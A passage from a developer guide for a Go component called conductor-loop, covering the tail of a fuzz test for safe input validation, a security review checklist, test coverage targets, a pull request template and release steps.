                t.Errorf("Fuzz test caused panic: %v", r)
            }
        }()
        
        result := validateIntentSecurely(data)
        
        // Even if validation fails, it should fail safely
        if !result.Valid {
            assert.NotEmpty(t, result.Error)
            assert.NotContains(t, result.Error, "panic")
        }
        
        // Should not leak sensitive information in error messages
        assertNoSensitiveDataLeakage(t, result.Error)
    })
}
```

### Testing Requirements

#### Code Security Requirements

**Security Code Review Checklist**:
- [ ] All inputs validated against schema and security rules
- [ ] No hardcoded secrets or credentials
- [ ] Proper error handling without information disclosure
- [ ] Resource limits enforced (memory, CPU, file descriptors)
- [ ] Secure file operations with path validation
- [ ] Command execution properly sanitized
- [ ] Cryptographic operations use approved algorithms
- [ ] Logging excludes sensitive information
- [ ] Dependencies scanned for vulnerabilities
- [ ] Security tests cover all attack vectors

**Minimum Test Coverage**: 
- **General Code**: 80% 
- **Security-Critical Code**: 95%
- **Input Validation**: 100%
- **Authentication/Authorization**: 100%

**Required Test Types**:
1. Unit tests for all public functions
2. Integration tests for component interactions
3. Error path testing for failure scenarios
4. Performance benchmarks for critical paths
5. **Security tests for all attack vectors**
6. **Penetration tests for external interfaces**
7. **Chaos engineering tests for resilience**

**Test Naming Convention**:
```go
func TestComponent_Method_Scenario(t *testing.T)
func BenchmarkComponent_Method(b *testing.B)
```

### Pull Request Process

**PR Checklist**:
- [ ] Code follows style guidelines
- [ ] Tests pass locally (`make test`)
- [ ] New features include tests
- [ ] Documentation updated
- [ ] CHANGELOG.md updated
- [ ] Performance impact assessed

**PR Template**:
```markdown
## Description
Brief description of changes

## Type of Change
- [ ] Bug fix
- [ ] New feature
- [ ] Performance improvement
- [ ] Documentation update
- [ ] Refactoring

## Testing
- [ ] Unit tests added/updated
- [ ] Integration tests pass
- [ ] Manual testing completed

## Performance Impact
Describe any performance implications

## Breaking Changes
List any breaking changes
```

### Release Process

**Version Numbering**: Follow [Semantic Versioning](https://semver.org/)

**Release Steps**:
1. Update version in `cmd/conductor-loop/main.go`
2. Update CHANGELOG.md with release notes
3. Create release branch: `release/v1.2.0`
4. Run full test suite
5. Build and test Docker images
6. Create GitHub release with artifacts
7. Merge to main branch
8. Deploy to staging environment
9. Promote to production after validation

**Release Artifacts**:
- Binary releases for Windows, Linux, macOS
- Docker images for multiple architectures
- Helm charts for Kubernetes deployment
- Documentation packages

This developer guide provides the foundation for contributing to the conductor-loop component. For specific implementation questions, consult the source code documentation or reach out to the development team.